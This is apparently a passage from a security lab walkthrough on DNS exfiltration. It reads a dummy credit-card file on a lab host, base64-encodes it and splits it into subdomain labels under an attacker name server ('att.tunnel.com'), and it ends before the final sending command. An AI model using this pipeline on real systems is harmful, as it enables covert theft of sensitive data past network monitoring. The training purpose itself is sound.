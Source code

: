 ```shell
root@AttackBox$ ssh thm@10.10.96.213 -p 2122
	    
```

On the victim2 machine, there is a task9/credit.txt file with dummy data.

- Checking the content of the creds.txt file

```shell
thm@victim2$ cat task9/credit.txt
Name: THM-user
Address: 1234 Internet, THM
Credit Card: 1234-1234-1234-1234
Expire: 05/05/2022
Code: 1337
	    
```

In order to send the content of a file,  we need to convert it into a string representation which could be done  using any encoding representation such as Base64, Hex, Binary, etc. In  our case, we encode the file using Base64 as follows,

- Encoding the Content of the credit.txt File

```shell
thm@victim2$ cat task9/credit.txt | base64
TmFtZTogVEhNLXVzZXIKQWRkcmVzczogMTIzNCBJbnRlcm5ldCwgVEhNCkNyZWRpdCBDYXJkOiAx
MjM0LTEyMzQtMTIzNC0xMjM0CkV4cGlyZTogMDUvMDUvMjAyMgpDb2RlOiAxMzM3Cg==
	    
```

Now that we have the Base64 representation, we need to split it into one or multiple DNS requests depending on the output's length (DNS limitations) and attach  it as a subdomain name. Let's show both ways starting with splitting for multiple DNS requests.

- Splitting the content into multiple DNS requests

```shell
thm@victim2:~$ cat task9/credit.txt | base64 | tr -d "\n"| fold -w18 | sed -r 's/.*/&.att.tunnel.com/' 
TmFtZTogVEhNLXVzZX.att.tunnel.com
IKQWRkcmVzczogMTIz.att.tunnel.com
NCBJbnRlcm5ldCwgVE.att.tunnel.com
hNCkNyZWRpdCBDYXJk.att.tunnel.com
OiAxMjM0LTEyMzQtMT.att.tunnel.com
IzNC0xMjM0CkV4cGly.att.tunnel.com
ZTogMDUvMDUvMjAyMg.att.tunnel.com
pDb2RlOiAxMzM3Cg==.att.tunnel.com	    
```

In the previous command, we read the file's content and encoded it  using Base64. Then, we cleaned the string by removing the new lines and  gathered every 18 characters as a group. Finally, we appended the name  server "att.tunnel.com" for every group. 

Let's check the other way where we send a single DNS request, which we will be using for our data exfiltration. This time, we split every 18 characters with a dot "." and add the name server similar to what we did in the previous command.
